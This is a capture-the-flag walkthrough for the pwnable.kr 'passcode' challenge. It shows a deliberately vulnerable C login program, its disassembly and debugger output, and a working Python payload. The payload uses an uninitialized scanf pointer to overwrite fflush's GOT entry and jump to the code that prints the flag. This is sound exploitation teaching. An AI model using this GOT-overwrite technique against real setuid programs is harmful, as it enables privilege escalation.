 # passcode
The fifth challenge from pwnable.kr

## Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

After ssh, we see the following:

```sh
ls -lh
```

```
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7.4K Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```

We can see that executes with suid bit of passcode_pwn, which would allow it to open flag.

Let's try to compile the source code to see what warning they're talking about.

`gcc passcode.c`

```
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
  scanf("%d", passcode1);
  ^
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
         ^
```

If we try to run the program, we get the following:

`./passcode`

```
Toddler's Secure Login System 1.0 beta.
enter you name : Fuck
Welcome Fuck!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault
```

Source code is provided again in this challenge, let's take a look at it.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

The disassembly gives us more insight on which memory addresses are being used during the passcode comparisons.

```asm
80485c5:	81 7d f0 e6 28 05 00 	cmpl   $0x528e6,-0x10(%ebp)
80485cc:	75 23                	jne    80485f1 <login+0x8d>
80485ce:	81 7d f4 c9 07 cc 00 	cmpl   $0xcc07c9,-0xc(%ebp)
80485d5:	75 1a                	jne    80485f1 <login+0x8d>
80485d7:	c7 04 24 a5 87 04 08 	movl   $0x80487a5,(%esp)
80485de:	e8 6d fe ff ff       	call   8048450 <puts@plt>
80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

Let's see what the stack looks like if we fill name[100].

`pwndbg ./passcode`

```
pwndbg> b *0x80485c5
Breakpoint 1 at 0x80485c5
```

```
pwndbg> r
Starting program: /home/ctf/challenges/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : a
enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()
```

```
pwndbg> x/4wx $ebp-0x10
0xff925418:	0x61616161	0xbf99e000	0x00000000	0x00000000
```

Part of our buffer is reused in the stack of login(), particularly the memory address of passcode1 which is `-0x10(%ebp)`.

`scanf("%d", passcode1)` is not dereferencing passcode1, which means scanf will load an address and write a value there instead.

So let's write an address with the last 4 bytes during `scanf("%100s", name)`, then overwrite with a value of our own during `scanf("%d", passcode1)`.

One thing we can do, since this code is has dynamically linked libraries, is overwrite a reloc in the PLT so that our code jumps where we want when that call is made.

```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts
0804a010  00000507 R_386_JUMP_SLOT   00000000   system
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf
```

fflush is conveniently called right after our second scanf, and also has neither whitespace/null hex value representations in its address, so let's use that.

`80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)` is where we want to jump to.

We pad our buffer with 96 bytes, then the address of fflush, `0x0804a004`, then the address we want to jump to when fflush is eventually called, in int representation, `134514147`.


### Capturing the Flag

```
passcode@ubuntu:~$ python -c "print('a'*96+'\x04\xa0\x04\x08\n134514147\n10\n')" > /tmp/passcode.input
passcode@ubuntu:~$ ./passcode < /tmp/passcode.input
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
